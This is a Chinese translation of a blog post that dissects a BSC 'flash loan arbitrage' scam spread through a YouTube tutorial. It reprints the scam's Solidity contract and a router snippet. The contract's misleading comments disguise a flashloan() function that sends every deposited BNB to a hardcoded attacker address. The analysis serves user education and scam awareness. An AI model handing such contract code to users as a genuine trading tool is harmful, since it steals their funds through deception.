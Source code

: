 # Analysis of a technical smart contract scam-一起智能合约骗局剖析


> 原文链接：https://jeiwan.net/posts/flashloan-scam/
>
> 作者：Ivan Kuznetsov
>
> 翻译：https://github.com/7Levy

## 引言

我曾经在油管上看到一个叫做“我是如何在BSC上通过闪电贷套利获取BNB的"的视频。这个视频标题很引人注目，因为在2021年初每个关注加密领域的人知道BSC链，它是以太坊的克隆链，并且大家肯定听说过在这个区块链上的DeFi被多次攻击。

在以太坊上DeFi项目的成功后，币安创造了一个以太坊的复制品，据称币安资助了许多成功和先进的类以太坊DeFi项目。一切看起来都很好，直到2021年春天发生的一系列针对BSC的黑客攻击。

大多数攻击使用的是类似的方案：

1. DeFi合约在代币余额计算上存在漏洞。
2. 攻击者使用闪电贷去扩充代币池。
3. 攻击者随后利用这些漏洞去做一些大额交易或者代币互换操作，欺骗合约认为所有余额都是正确的。
4. 攻击者归还闪电贷后能从中获取些许利润。

所以，对于任何一个听说过这些攻击的人来说（包括我）都跃跃欲试。

## 骗局细节

该视频的作者分享了他们是如何通过闪电贷进行一笔套利并赚取一些BNB（当时BNB价值大概为400美金一个），而且，他们十分大方地分享了这项技术。

1. 观众要去部署一个智能合约去完成这项工作。
2. 为了支付交易费用，观众要在合同中存取0.25BNB。该合约属于观众，所以一切看起来很安全。
3. 然后，观众需要执行合约的闪电贷函数。

作者甚至将合约上传到了以太坊在线IDE Remix上，观众只需要点击几个按钮。不难想到很多人跟着这个教程做然后失去了0.25BNB，他们存入合约然后没有得到任何回报。在写本文的时候，已经有超过44个BNB（17500多美金）被从攻击者的地址存取。

## 如何识破这类骗局

先说第一点，明显的是0.25BNB的费用：对于BSC来说是比十分高昂的手续费，你几乎不会提交一个高额成本的交易。显然，攻击者不希望交易过于可疑，将金额设置的足够低，看起来就像一笔真正的费用，但大到足以满足他们的贪婪。

第二点，如果你不知道一个合约是如何运作的，永远不要去运行它。如下是观众们按照指引部署的合约（注释是作者添加的）。

```
pragma solidity ^0.5.0;
// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";

//BakerySwp Smart contracts
import "https://github.com/BakeryProject/bakery-swap-core/blob/master/contracts/interfaces/IBakerySwapFactory.sol";

// Router
import "ipfs://QmUSQQNWBJ6snmx5FvafDSBCPCy63BLTpwM61dYjRzwLkN";

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

contract InitiateFlashLoan {
    RouterV2 router;
    string public tokenName;
    string public tokenSymbol;
    uint256 flashLoanAmount;

    constructor(
        string memory _tokenName,
        string memory _tokenSymbol,
        uint256 _loanAmount
    ) public {
        tokenName = _tokenName;
        tokenSymbol = _tokenSymbol;
        flashLoanAmount = _loanAmount;
        router = new RouterV2();
    }

    function() external payable {}

    function flashloan() public payable {
        // Send required coins for swap
        address(uint160(router.pancakeSwapAddress())).transfer(
            address(this).balance
        );

        //Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
        router.borrowFlashloanFromMultiplier(
            address(this),
            router.bakerySwapAddress(),
            flashLoanAmount
        );

        //To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
        router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);

        //The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
        router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);

        //After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
        router.transferBnbToMultiplier(router.pancakeSwapAddress());

        //Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
        router.completeTransation(address(this).balance);
    }
}
```

一切看起来都很不错：

1. 导入官方的PancakeSwap、BakerySwap和Multiplier-Finance合约。
2. 导入一个路由合约(IPFS???)
3. 然后经过flashloan函数发送合约的以太给PancakeSwap的地址，接着从Multiplier-Finance借一笔闪电贷，进行套利交易，支付贷款，最后将一些利润返还给合约。

事实上，合约只做了一件事，它把所有存入合同的BNB发送到了攻击者的地址，IPFS导入看起来很可疑，他们在那里使用IPFS是有原因的：我们因此很难获得路由合约并查看它在做什么。

路由合约包含了很多行使得其混杂难以阅读，但我们不难发现一个重要的部分：

```
...

contract RouterV2 {
    ...
    function pancakeSwapAddress() public pure returns (address) {
        return 0x2593F13d5b7aC0d766E5768977ca477F9165923a;
    }

    ...
}
```

这是主合约将所有资金发送出去的地址。

## 总结

 这个骗局是个很有意思的案例：大多数骗局针对的是不懂技术的加密货币用户，而且这个骗局的目标人群是知道闪电贷攻击、部署合约以及交互的人，这不是一个大众群体，但是就像我们看见的一样，许多人任然成为骗局的受害者。

如果你喜欢阅读区块链安全和黑客事件，我非常推荐去订阅[Blockchain Threat Intelligence](https://blockthreat.substack.com/?utm_source=jeiwan.net&utm_medium=blog&utm_content=textlink)。


